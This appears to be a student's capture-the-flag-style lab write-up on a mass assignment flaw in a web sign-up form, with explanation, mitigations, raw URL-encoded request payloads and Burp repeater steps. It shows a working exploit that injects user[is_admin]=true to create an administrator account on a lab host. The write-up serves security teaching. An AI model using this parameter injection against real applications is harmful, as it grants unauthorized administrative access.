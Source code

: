 # Mass assignment

## Answers
1. Explain the security problem
    - The parameters being sent in the post request end in the database due to some auto binding server side. Probably, the server side (framework) code will take all properties passed in the UI and assign them to an object that is used to save the data to the database. The object that is saved (or whose properties) are saved is directly bound to the incomming http parameters, apparently without any additional checks
2. Explain the exploit
    - by adding user[is_admin]=true to the payload, the property is_admin is automatically set to the server side user object. From the other payload, i can guess the syntax, however the property name I have to guess/try out (or read the lab description :-) 
3. Explain mitigation (how this can be fixed)
    - Automatically bind data coming from the http request to an object that saved to the database is not a good idea. Instead DTO objects should be used that contain only the properties that are allowed for this particular use case. Such a dto can be used for automated binding. There is a bit more to code as the values from the dto object have to be mapped to another object that is used to save the data (usually)
    - if dto is not possible for whatever reason, the allowed properties should be whitelisted (or less ideal, we blacklist the crucial properties)


## Steps

**ccreate "normal" user**
Post-Request for sign up/creating a user  `/users`

Payload: `utf8=%E2%9C%93&authenticity_token=UZ5zGI6i24uuPn7UPOmUFi%2BpyieJpYUIlmVMxRnFe%2Fw%3D&user%5Bemail%5D=daniel.knoepfel%40ost.ch&user%5Bpassword%5D=abc123&user%5Bpassword_confirmation%5D=abc123&commit=Sign+up`

**create admin user user**
Payload: `utf8=%E2%9C%93&authenticity_token=GUZoIwAI9XLdb%2FiWFBOYJQZ30KnzeHv8bG2jFzED0j8%3D&user%5Bemail%5D=admin.knopf%40ost.ch&user%5Bpassword%5D=abc123&user%5Bpassword_confirmation%5D=abc123&commit=Sign+up&user%5Bis_admin%5D=true`

Steps in Burp
1. Set up Burp 
2. Start intercepting while surfing on  http://rma.vm.vuln.land/
    - Post request '/users' is intercepted
3. in Burp>Prox > right click and send to repeater
4. in Repeater adjust the raw request and add "Bis_admin%5D=true" to the payload
5. Send request -> admin user is created
